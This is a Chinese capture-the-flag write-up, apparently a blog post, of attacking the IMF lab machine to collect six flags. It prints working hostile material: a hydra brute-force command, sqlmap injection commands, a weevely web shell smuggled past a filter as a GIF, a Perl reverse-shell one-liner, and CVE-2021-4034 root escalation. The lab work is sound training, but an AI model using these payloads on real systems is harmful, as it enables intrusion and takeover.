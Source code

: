 #  IMF爆肝7小时绿野仙踪寻找6大flag，层层递进、sqlmap、bp、weevely、nc、cve-2021-4034齐装上阵   
原创 泷羽Sec-朝阳  泷羽Sec-朝阳   2025-03-16 20:48  
  
# IMF爆肝7小时，绿野仙踪寻找6大flag，层层递进、sqlmap、bp、weevely、nc、cve-2021-4034齐装上阵  
## 一、信息收集 2025.3.16 AM 13:28  
### 1、主机发现  
  
arp-scan -l nmap -sS 192.168.66.0/24![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5pb32JtdMZfjib1iczebZesIh8pQ2LicoZAolH85FJ2FsgVlCl6DhibQg4Q/640?wx_fmt=png&from=appmsg "")  
  
### 2、指纹扫描  
```
nmap --script=vuln -p 21,22,80 192.168.66.181
扫描端口历史漏洞

```  
```
nmap -sS -sV 192.168.66.181

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

```  
  
这里只扫描出了80端口，端口越少我这心越慌啊，线索有点少 我们先扫描一下目录吧  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5JGLHw3LsXL262Tic5xjm2OaDFXYk2JxHHCtA5P2FDx4Uuxja6KWLIBQ/640?wx_fmt=png&from=appmsg "")  
### 3、目录扫描  
  
dirsearch -u http://192.168.66.181/ -e * -i 200 dirb http://192.168.66.181 nikto -h 192.168.66.181 -p 80 gobuster dir -u http://192.168.66.181/backup_wordpress/-t30 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt  -s 80  
### 4、访问80端口  
  
这里给了一点信息，但是有点模糊，像是用什么指令![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5nLqM1U6rH7Meuan3TVmMLPNe2dYhJWz2f5Um4Hrvn7mCviasZwx8I0A/640?wx_fmt=png&from=appmsg "")  
  
  
这里给了几个邮箱，可能是某些账户![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5QEDrua8AowNtqbznfYBHg5OIXGSicQM5avWD6D3ibtVoTMb8opDibbONg/640?wx_fmt=png&from=appmsg "")  
貌似是有些什么软件，可能会提权，也有一种可能就是我们上传某些命令打开靶机的端口![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW57NBO0njjdJMs4e1ftk6KdVTSu6sGt3V7Sl3s9xiawmKMbcH0cn2aFRA/640?wx_fmt=png&from=appmsg "")  
  
  
这里不知道是不是给了一个小彩蛋![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5656OVwJzqtreibYOZIdA4NuZebuicozbtqcoiaExLAQCZbiauLibAUXTibvg/640?wx_fmt=png&from=appmsg "")  
  
  
allthefiles flag2{aW1mYWRtaW5pc3RyYXRvcg==} imfadministrator![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5NMA9bBIe4t4CmK3otBH7IBrAb6ibjaAiczmkCHfqYEzibvrM7dmFclVjQ/640?wx_fmt=png&from=appmsg "")  
这里解码之后是这两个东西 http://192.168.66.181/imfadministrator/![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5RzMmKky7NoicFibp9U2hgqtvOGJ0ibdtdXUjslIzuS8fD5wic1cGSmyIdg/640?wx_fmt=png&from=appmsg "")  
这里是可以测试出来用户名称的，这下我们可以爆破了  
  
访问了这个路径是一个登录页面，我们爆破一下 hydra -l rmichaels -P /usr/share/wordlists/rockyou.txt 192.168.66.181 http-post-form "/imfadministrator/:user=^USER^&pass=^PASS^:error" 这里无论是什么密码都失败了，看了wp，这里这能使用bp来抓包处理  
### 5、寻找flag3，bp  
  
第三个flag flag3{Y29udGludWVUT2Ntcw==} continueTOcms  
  
使用sqlmap跑一下，正常来说oscp靶场不允许使用bp和sqlmap，但这个靶场有点特殊，我们尝试注入一下![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5NAyrM2sID2S9oqfvbUjGzVvNSEJV3XDsjfKQZAziarxOWticLwia6lMmQ/640?wx_fmt=png&from=appmsg "")  
这里发现了注入点，我们开始爆破  
### 5、寻找flag4，sqlmap  
  
不得不说，sqlmap确实香，一键爆破  
```
sqlmap -u "http://192.168.66.181/imfadministrator/cms.php?pagename=home" --cookie "PHPSESSID=cvjavn85t6cm3pldfr1nbpp9s1" --dbs --batch

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5AasV6IzKEAIVeCyTkHJZdC38OOicPwib6D2XY6Luw9DD7XfKIuiccia8Pg/640?wx_fmt=png&from=appmsg "")  
```
sqlmap -u "http://192.168.66.181/imfadministrator/cms.php?pagename=home" --cookie "PHPSESSID=cvjavn85t6cm3pldfr1nbpp9s1" --D admin --tables --batch

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5z9vhR1dRaic5GLEmLbowTwRSEgurYpJT8zfpTibDPEAaNeagMnwVMYPQ/640?wx_fmt=png&from=appmsg "")  
```
sqlmap -u "http://192.168.66.181/imfadministrator/cms.php?pagename=home" --cookie "PHPSESSID=cvjavn85t6cm3pldfr1nbpp9s1" -D admin --tables --batch 

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5Yu5pqg26ZAelrmfTpZurlXqI7miaN7scwPzcZjSIPj7qmv6qyXnpibFQ/640?wx_fmt=png&from=appmsg "")  
ok,这里是爆了一张图片，我怀疑这台靶机可能是必须要用sqlmap和bo的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5QOIlUScw8iaPndh5mxB2BEHAypBJ7Rzm0kGNAxEPXz94O5vSibTE6fHA/640?wx_fmt=png&from=appmsg "")  
一张图片附带二维码 这里微信扫一下就拿到了flag flag4{dXBsb2Fkcjk0Mi5waHA=}  
### 6、寻找flag5  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5ibd2GQ0Qf7s5wvGSVZm4l9LoEqBFmdHBTjunBoCmY7x0M5OcPC8c3SA/640?wx_fmt=png&from=appmsg "")  
这里还有一个php脚本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5HG3qpicJcUicQJArr4uCV252edhBtia2cy1EVfibiaOleldePanyxJiblvZQ/640?wx_fmt=png&from=appmsg "")  
文件上传，这次离我们提权不远了 经过测试可以上传jpg、png、gif等文件，使用php一句话木马上传文件，靶机使用waf对eval()等函数进行了过滤，需要做一个绕过waf等检查机制，使用weevely生成一个PHP马 这里是我的一个盲区啊，但是我之前打过ctf，大概意思是我们可以修改文件16进制的开头，也就是文件类型  
#### 7、隧道建立nc  
  
weevely generate hack test.php![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW52CMzeDic7otYcSlnMBSoTL0hsxBFAbmdXZibKWSq7ESibWYD0zh3LticRQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5uQtKNo2cctB6AVW7gickIyPusGbAOomqbWE3Gia1NceUhukib1kpCKqiaQ/640?wx_fmt=png&from=appmsg "")  
这次检测这个文件就是png文件了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5zHDgqPhuKOLibPZvwJgQK5KBW8JpcHhc7et207d3oyJ3GiaF7bDSG7YA/640?wx_fmt=png&from=appmsg "")  
这种方式牛的，我之前只在windows系统上用这种方式复原，也算是一种容易被忽略的绕过吧  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5j8nkmMpzZicczhJcqJabXRq928ibJA3pVdPyjw5vHhQO7L8IiaRerN4gw/640?wx_fmt=png&from=appmsg "")  
这里很奇怪，gif可以访问的到，但是png其他格式会报错  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW519Eduz08kHEjDeLMZJWvR0sia3lhlyIBxzXJJzN3y2qJsicxXcD6sBcw/640?wx_fmt=png&from=appmsg "")  
这里连接到了 GIF89a  
  
然后我们创建一个gif图片就可以，是这种文件类型的，然后我们再把上面两段代码放到抓到的包里面就可以了![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5819H8biaTpuPJBiaibuDZzEXicL97tpaQ9eLoBdu9nmJsZK2IazvLkn5rg/640?wx_fmt=png&from=appmsg "")  
这里我们就可以访问到了 f0a5152d5b9b.gif![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW57wPbk8k7Uvl7SN1wqKVuQ4aq92NKYrDUPXLOQao2xfXZDdzI2BrD5g/640?wx_fmt=png&from=appmsg "")  
这个时候我们构建恶意脚本,上传执行命令。  
  
GIF89a  
  
访问这个url即可 URL：http://192.168.66.181/imfadministrator/uploads/822fb3998d69.gif?a=ls![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5Qc8ibRPibDN61dCibbFtehLlhUic8ZDbc10Al2JIM1EWGp53DrKsiaibkajg/640?wx_fmt=png&from=appmsg "")  
这里全是我们之前实验丢进去的文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5t51gAYrOIkY2Tz8aCkibGKae6KB2Kl0KLWHC7PWibehc8I2rMAqgD0OA/640?wx_fmt=png&from=appmsg "")  
flag5{YWdlbnRzZXJ2aWNlcw==}  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5Xo983Sg1rdXVxA4j0HicIa4FaFeftA7ic7GV8gNNd3y1HVia9zkJ0lCyg/640?wx_fmt=png&from=appmsg "")  
这里花了几个小时终于建立了shell，首先尝试python的pty模块![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5lGMPjicO2YjjbHeocRS0UPIic9BVpMXpBDaBVZ4tXHMg0e6zKwMo5lLg/640?wx_fmt=png&from=appmsg "")  
  
```
python -c 'import pty;pty.spawn("/bin/bash")'
这次不行，换种方式
perl -e 'use Socket;$i="192.168.66.129";$p=6677;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
这里我们再弹一个shell

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5Ae6SPAud8wMXnOOr0Lic9yWqwPdVGlibJdC6BwBSJZp8KAe4T5tWmDHA/640?wx_fmt=png&from=appmsg "")  
这是也是建立了隧道  
#### 8、提权  
  
终于终于最后一步了 lsb_release -a  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5wEaxPeIlb1GhGg8qHKz3OIppDyhGFQ9OBXCF2IUYCkzgR5fA7G9I0A/640?wx_fmt=png&from=appmsg "")  
这里上内核提权 这里用到一个提权漏洞：CVE-2021-4034：Linux提权漏洞，主要原因在于Polkit包下的Pkexec工具存在内存损害，允许非特权用户利用提升到ROOT。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5bmBVEYxIsLzHet1px0U6ECPhGz4VicALh3DtODXdPV1HXfppRJ0GjsQ/640?wx_fmt=png&from=appmsg "")  
这里拿到了root权限，我们找一找flag flag6{R2gwc3RQcm90MGMwbHM=}  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5MvpUFvg9aHTibJBOLyGAjIHfAnayxdE4LbicdHlN0uzYbWSceAxqCt3Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT0ic9RjEvIx5AbOE7Vy4nNW5Xy2VtMmxQDicvvnHn9cY3unX4zp1XibbwXVicLUzb0VWelljA5TmX8S7w/640?wx_fmt=png&from=appmsg "")  
2025.3.16 PM 20：42  
  
  
